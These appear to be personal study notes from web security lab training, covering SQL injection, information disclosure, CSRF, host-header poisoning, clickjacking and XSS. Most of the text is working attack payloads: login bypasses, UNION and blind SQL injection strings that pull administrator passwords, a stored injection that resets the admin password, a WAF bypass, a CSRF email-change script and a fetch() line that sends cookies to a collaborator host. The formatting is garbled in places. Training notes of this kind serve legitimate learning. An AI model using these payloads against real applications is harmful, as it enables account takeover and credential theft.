Detection
',OR 1=1,OR 1=2,time based payloads,OAST payloads
Common injection points
-
SELECT * from Where SQLi
-
UPDATE set x=1 where SQLi
-
INSERT into x values (SQLi)
-
SELECT SQLi from SQLi ORDER BY SQLi
-
Ways to exploit login: username:
admin'--or password=pass'+OR+1=1--
SQL injection UNION attacks
-
EMBER MULTIPLE SELECT STATEMENTS -
EX: SELECT A,B, FROM TABLE1 UNION SELECT C,D FROM TABLE2
-
This needs
same nr of columns, andcompatible types of columns -
STEPS:
- determine nr of columns
ORDER BY nuntil it failsUNION SELECT NULL, NULL, NULL....(FROM DUAL -- FOR ORACLE)until it succeeds and adds a null column
- determine the types
UNION SELECT 'a', NULL, NULL....(FROM DUAL -- FOR ORACLE)until it succeeds and adds a null column
- determine nr of columns
-
COMBINE MULTIPLE COLUMNS:SELECT USERNAME || '-' || PASSWORD FROM TABLE(IN ORACLE) -
How to inspect the database tables and properties
SELECT @@VERSIONMYSQL,SELECT * FROM v$versionORACLE,SELECT version()PostgreSQLSELECT * FROM information_schema.tablesor.columns- ex STEP1: category=Gifts' UNION SELECT table_name,NULL from information_schema.tables
- ex STEP2: category=Gifts' UNION SELECT column_name,NULL from information_schema.columns where table_name='TABLENAME FOUND AT STEP 1'
- ex STEP3: category=Gifts' UNION SELECT column1,column2 from 'TABLENAME FOUND AT STEP 1' -> to get the data
Blind SQL injections
Cookies like TrackingId=jhkahkjdlsahlda9can also be an injection point!- Analyse the difference in behaviour for
'AND'1'='1and for'AND'1'='2(ex: Welcome back message!) - DETERMINE DATA ONE STEP AT A TIME
- use
SUBSTRING(data, start, length)for this - ex:TrackingId=t5gh9WYA3E8wgTlF'+AND+(SELECT+SUBSTRING(password,1,1)+FROM+users+WHERE+username='administrator')='§a§
Error-based SQL injection (BLIND)
- In case boolean SQLi doesn't have an indication of success visible in the application response, you turn to Error-based SQL injection and hope that unhandeld SQL errors will cause a difference in the response.
- Induce an error as an indication of success, or have the data returned into error messages -> visible SQLi.
- TEST PAYLOAD:
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END) = 'a - EXPLOIT PAYLOAD:
xyz' AND (SELECT CASE WHEN (username='admin' and substring(password, 1, 1)='a') THEN 1/0 ELSE 'a' END) = 'a - Verbose error messages:
- CAST() to int to force a select result to generate an error with the output of the select.
CAST((SELECT example_column FROM example_table) AS int)->ERROR: invalid input syntax for type integer: "Example data"- PAYLOAD:
TrackingId=' AND 1=CAST((SELECT password from users LIMIT 1) AS int)--
- Time based BLIND SQL injection
- if errors are handled in code, then your next idea is time based
- These happen if the SQL is handles sinchrounously and if you add a delay in the sql query it should DELAY also the HTTP response (inefficient if done async)
- PAYLOAD:
'%3b(SELECT CASE WHEN ((SELECT SUBSTRING(password,{i},1) from users where username='administrator')='{char}') THEN pg_sleep(3) ELSE pg_sleep(0) END)--
Blind SQL Out-of-band techinque(OAST)
- What if the SQL query is handled
asynchronously? Then no more time based attacks... - You need to trigger
OUT OF BAND interactionsto a system that you control.(DNS lookups) Use Burp Collaborator for this!- If you identify that a DNS lookup happened to your domain, then you can append to the url the output of any query directly and you get them in the DNS query.
XML encoded SQLi
- You can encode your payload in any format: JSON, XML
- Sometimes there is a
WAFto bypass -> you can use Hackvertor from BurpSUite extensions, and wrap your payload in a xml tag to bypass it - ex: `
1
-
The
<@dec_entities>tag is used to encode the sqli payload like this behind the scenes:1 UNION SELECT username||'+'||password from users LIMIT 5
Second order SQL injections = STORED SQli
- ex: create a username like:
badguy';update users set password='letmein' where user='administrator'-> trigger the SQLi in a later HTTP request
Information disclosure
- In php websites, debug file with the output of phpinfo() is
/cgi-bin/phpinfo.php - Look for backups: /backup folder or:
file.ext~, #file.ext#, ~file.ext, file.ext.bak, file.ext.tmp, file.ext.old, file.bak, file.tmp and file.old - Look for robots.txt or sitemap.xml
- The
TRACEHTTP requestmethod is primarily used for diagnostic purposes. It echoes back the received request so that the client can see what changes or additions might have been made by intermediate servers.- Useful to determine if additional headers were appended by proxy servers.
- CHECK VERSION CONTROL: see if there is a .git folder on the server, and if there is extract it with
git-dumper
<script>
var ref = new XMLHttpRequest();
ref.open('post', 'https://0a3c00de0493af8582f1f131005b00dd.web-security-academy.net/my-account/change-email', true);
ref.withCredentials = true;
ref.send('email=test@ahdyue.net');
</script>
- Some applications trust the HOST header TOO MUCH
- -> password reset poisoning: forgot-password link generated dynamically based on the HOST header address -> change host header to an attacker controlled website -> when the user clicks the "password-reset link" it will appear with the reset token in the attacker's logs so that it can use it on the real vulnerable app
- -> HOST header to allow admin to localhost!!!
Clickjacking
- create 2 layers: decoy website + target website
- decoy website is put behind target website, and target website is put with opactiy 0.00001 = transparent
- the user only sees the decoy website, that is actually behind the real interface of the target. If you put buttons aligned on decoy with target, when they "click" on the decoy button -> it actually clicks the layer 1, which is the target without them knowing !!!
- PREVENTION:
frame-busters!!!scripts that don't allow the website to be framed inside an iframe -> makes elements visible, takes over top-window, doesn't allow actions on invisible elements!
XXE - XML external entity injection
- view files on filesystem of server + interact with backend systems
Essential skills
- scan a specific insertion point
- if you find XSS with OAST technique, send over the cookies of the administrator (stored XSS)
- in JS, you have 2 functions for
normalizing the cookiesencodeURI- leaves=,&and?intact since they have a meaning in the URIencodeURIComponent- encodes ALL in order for it to be processed as a URL component
- STRING INTERPOLATION IN JAVASCRIPT
- x =
Hello ${x}
- x =
- ex: fetch('http://collaborator/${encodeURIComponent(document.cookie)}')